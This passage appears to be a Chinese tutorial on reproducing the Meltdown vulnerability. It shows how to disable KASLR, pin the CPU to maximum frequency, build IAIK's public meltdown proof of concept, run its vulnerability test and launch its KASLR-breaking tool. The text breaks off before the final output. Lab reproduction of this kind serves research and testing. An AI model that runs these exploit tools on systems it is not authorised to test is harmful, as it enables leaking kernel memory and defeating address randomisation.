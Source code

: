 将nokaslr选项写入grub配置中，然后重启电脑。

## 设置CPU频率为最大性能

由于项目的需要，还有但核心运算时的性能问题，我们希望CPU以最高频率运行，所以我们在终端里输入：

```bash
$ sudo apt-get install cpufrequtils
$ cpufreq-set -g perfomance //以最大性能运行
$ sudo cpufreq-info  //查看每个核心是否以大于3.4GHz工作，如果是进行下面的步骤
```

## 从源代码编译

首先解决编译依赖问题，对于Ubuntu系统，终端下输入：

```bash
$ sudo apt-get install build-essentials
```

然后将项目clone下来：

```bash
$ git clone https://github.com/IAIK/meltdown.git
```

进入项目文件夹，编译

```bash
$ cd meltdown
$ make
```

## 测试是否可以执行漏洞

运行test：

```bash
$ taskset 0x1 ./test
```

如果得到类似输出，则说明CPU存在这个漏洞：

```bash
Expect: Welcome to the wonderful world of microarchitectural attacks
   Got: Welcome to the wonderful world of microarchitectural attacks
```

## 破解KALSR

这里我们测试环境禁用了kalsr，但是在这里也提供破解的方式：

```bash
$ sudo taskset 0x1 ./kaslr
```

等待一段时间（1分钟到几个小时不等），可以看到类似的输出则说明成功：
